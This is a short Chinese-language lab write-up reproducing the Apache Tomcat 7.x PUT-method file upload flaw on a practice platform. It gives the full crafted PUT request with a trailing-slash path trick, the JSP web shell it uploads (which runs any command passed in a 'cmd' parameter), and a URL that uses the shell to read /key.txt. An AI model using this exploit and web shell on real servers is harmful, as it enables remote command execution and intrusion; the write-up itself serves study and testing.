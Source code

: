 # 0x00 复现环境
使用复现环境：https://www.mozhe.cn/bug/detail/120  
复现版本：Tomcat 7.0.79

# 0x01 环境搭建
无

# 0x02 利用条件
无

# 0x03 影响版本
7.0.0 <= Tomcat <= 7.0.79

# 0x04 漏洞复现
攻击环境：kali2020

访问目标地址，burp抓包，改包如下：  
```
PUT /cmd.jsp// HTTP/1.1
Host: 219.153.49.228:45174
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 313

<%
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
%>
```
Send后，返回如下  
![image](./f0.png)  
访问如下URL：http://219.153.49.228:45174/cmd.jsp?cmd=cat%20/key.txt，返回执行命令后的结果  
![image](./f1.png)

# 0x05 踩坑记录
无

# 0x06 参考链接
无
